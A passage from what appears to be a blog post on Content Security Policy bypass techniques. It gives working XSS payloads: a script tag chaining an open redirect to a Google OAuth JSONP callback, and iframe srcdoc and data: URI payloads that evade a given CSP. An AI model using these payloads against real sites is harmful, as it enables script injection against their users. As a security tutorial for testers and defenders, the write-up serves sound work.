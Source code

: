 working payload :">'><script src="https://website.with.redirect.com/redirect?url=https%3A//accounts.google.com/o/oauth2/revoke?callback=alert(1337)"></script>">

**Scenario** : **10**

Content-Security-Policy:  
default-src 'self' data: \*; connect-src 'self'; script-src 'self' ;  
report-uri /\_csp; upgrade-insecure-requests

THE above CSP policy can be bypassed using iframes. The condition is that application should allow iframes from the whitelisted domain. Now using a special attribute srcdoc of iframe, XSS can be easily achieved.

working payloads :<iframe srcdoc='<script src="data:text/javascript,alert(document.domain)"></script>'></iframe>\* sometimes it can be achieved using defer& async attributes of script within iframe (most of the time in new browser due to SOP it fails but who knows when you are lucky?)<iframe src='data:text/html,<script defer="true" src="data:text/javascript,document.body.innerText=/hello/"></script>'></iframe>

I hope you enjoyed reading this. Special thanks to [@mikispag](https://twitter.com/mikispag) & [@we1x](https://twitter.com/we1x) for their contribution to Google Security research in the domain of Content Security Policy secure implementation.

Thank You!

For any feedback or suggestions reach out to me @[Bhavesh_Thakur\_](https://twitter.com/Bhavesh_Thakur_)

[Source](https://medium.com/@bhaveshthakur2015/content-security-policy-csp-bypass-techniques-e3fa475bfe5d)
